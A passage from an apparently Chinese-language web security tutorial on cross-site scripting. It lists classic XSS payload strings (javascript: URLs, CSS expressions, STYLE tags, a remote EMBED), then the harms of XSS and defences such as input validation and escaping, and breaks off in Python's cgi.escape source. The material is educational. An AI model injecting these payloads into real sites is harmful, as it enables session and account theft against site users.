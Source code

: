 &lt;DIV STYLE="width: expression(alert('XSS'));"&gt;

&lt;DIV STYLE="background-image: url(javascript:alert('XSS'))"&gt;

&lt;STYLE TYPE="text/javascript"&gt;alert('XSS');&lt;/STYLE&gt;

&lt;STYLE type="text/css"&gt;BODY{background:url("javascript:alert('XSS')")}&lt;/STYLE&gt;

&lt;?='&lt;SCRIPT&gt;alert("XSS")&lt;/SCRIPT&gt;'?&gt;

&lt;A HREF="javascript:document.location='http://www.example.com/'"&gt;XSS&lt;/A&gt;

&lt;IMG SRC=javascript:alert('XSS')&gt;

&lt;EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"&gt;&lt;/EMBED&gt;

a="get";

b="URL(""";

c="javascript:";

d="alert('XSS');"")";

eval(a+b+c+d);</div>

更加详细的列表请参见 [5](http://ha.ckers.org/xss.html) 

### 危害

1.  盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号2.  控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力3.  盗窃企业重要的具有商业价值的资料4.  非法转账5.  强制发送电子邮件6.  网站挂马7.  控制受害者机器向其它网站发起攻击

### 防范

1.  必须明确：一切输入都是有害的，不要信任一切输入的数据。2.  缓和XSS问题的首要法则是确定哪个输入是有效的，并且拒绝所有别的无效输入。3.  替换危险字符，如："&amp;", "&lt;", "&gt;", """，"'", "/", "?"，";", ":", "%", "&lt;SPACE&gt;", "=", "+"。各种语言替换的程度不尽相同，但是基本上能抵御住一般的XSS攻击。

        1.  <tt>python</tt>的cgi.escape函数：

        <div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;"><span style="color: #fb660a; font-weight: bold;">def</span> <span style="color: #ff0086; font-weight: bold;">escape</span><span style="color: #ffffff;">(</span><span style="color: #ffffff;">s</span><span style="color: #ffffff;">,</span> <span style="color: #ffffff;">quote</span><span style="color: #ffffff;">=</span><span style="color: #ffffff;">None</span><span style="color: #ffffff;">):</span>

        <span style="color: #ffffff;">&nbsp;&nbsp;&nbsp; </span><span style="color: #0086d2;">'''Replace special characters "&amp;", "&lt;" and "&gt;" to HTML-safe sequences.</span>

        <span style="color: #0086d2;">&nbsp;&nbsp;&nbsp; If the optional flag quote is true, the quotation mark character (")</span>

        <span style="color: #0086d2;">&nbsp;&nbsp;&nbsp; is also translated.'''</span>

        <span style="color: #ffffff;">&nbsp;&nbsp;&nbsp; </span><span style="color: #ffffff;">s</span> <span style="color: #ffffff;">=</span> <span style="color: #ffffff;">s</span><span style="color: #ffffff;">.</span><span style="color: #ffffff;">replace</span><span style="color: #ffffff;">(</span><span style="color: #0086d2;">"&amp;"</span><span style="color: #ffffff;">,</span> <span style="color: #0086d2;">"&amp;amp;"</span><span style="color: #ffffff;">)</span> <span style="color: #008800; font-style: italic; background-color: #0f140f;"># Must be done first!</span>
